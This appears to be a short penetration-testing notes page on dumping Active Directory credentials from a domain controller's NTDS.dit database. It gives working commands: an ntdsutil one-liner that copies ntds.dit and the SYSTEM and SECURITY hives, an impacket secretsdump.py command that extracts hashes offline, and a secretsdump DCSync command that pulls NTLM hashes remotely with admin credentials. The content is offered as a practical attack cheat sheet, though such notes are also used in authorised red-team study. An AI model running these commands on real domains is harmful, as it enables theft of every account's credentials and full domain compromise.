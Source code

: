 ```yaml
---
category: Uncategorized
tags: []
---
```

#impacket #ntdsutil
- The `NTDS` (New Technology Directory Services) is a database that contains all the AD data.
- It has:
	- Schema Table
	- Link Table
	- Data Type
- The database is located at `C:\Windows\NTDS\ntds.dit` in the domain controller.
- This file is locked.
- Decrypting the NTDS requires the system boot key, which is stored in the SYSTEM hive or filesystem.
### Offline Dump
- When we have administrative access to the domain controller, but we don't have administrator credentials.
- We require a copy of the:
	- NDTS.dit
	- SYSTEM
	- SECURITY
- We can make a copy of the all these files using `ntdsutil.exe` command line tool.
```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full C:\temp' q q"
```
- Credentials can be dumped with impacket's `secretsdump.py`
```bash
secretsdump.py -security <security> -system <system> -ntds <ntds> local
```
### Credentials dump
- If we have administrator credentials, we can perform [DCSync](DCSync) using `secretsdump.py`:
```powershell
secretsdump.py -just-dc-ntlm mydomain.local/adminuser@10.10.10.10
```